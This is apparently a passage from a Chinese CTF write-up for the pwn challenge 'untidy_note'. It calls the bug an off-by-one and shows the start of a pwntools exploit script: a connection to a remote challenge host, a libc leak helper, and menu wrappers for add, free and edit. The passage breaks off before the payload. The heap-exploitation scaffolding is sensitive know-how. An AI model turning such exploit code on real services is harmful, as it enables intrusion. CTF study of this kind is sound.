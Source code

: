 pwn5 untidy\_note
-----------------

是个off\_by\_one，也挺简单的

```php
#coding=utf-8
from pwn import *

context(arch="amd64", os="linux")
context.log_level='debug'
# context.terminal=['tmux','splitw','-h']

ip = '123.57.69.203'
port = '7030'
reomote_addr = [ip,port]
binary = './untidy_note'

libc = ELF('./2.27-3ubuntu1.4_amd64/libc.so.6')
elf = ELF(binary)
if len(sys.argv)==1:
    p = process(binary)

if len(sys.argv)==2 :
    p = remote(reomote_addr[0],reomote_addr[1])

#----------------------------------------------------------------------
ru = lambda x : p.recvuntil(x,timeout=0.2)
sd = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
it = lambda :p.interactive()
ru7f = lambda : u64(ru('\x7f')[-6:].ljust(8,b'\x00'))
rv6 = lambda : u64(rv(6)+b'\x00'*2)
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bp = lambda src=None : attach(p,src)
sym = lambda name : libc.sym[name]
#----------------------------------------------------------------------

def leak(offset):
        addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
        base = addr - offset
        print "[+]libc_base=>"+hex(base)
        return base

def menu(idx):
    sla("Your choose is:\n",str(idx))

def add(size):
    menu(1)
    ru("the note size is:\n")
    sl(str(size))

def free(index):
    menu(2)
    ru("index:\n\n")
    sl(str(index))

def edit(index,size,content):
    menu(3)
    ru("index:\n")
```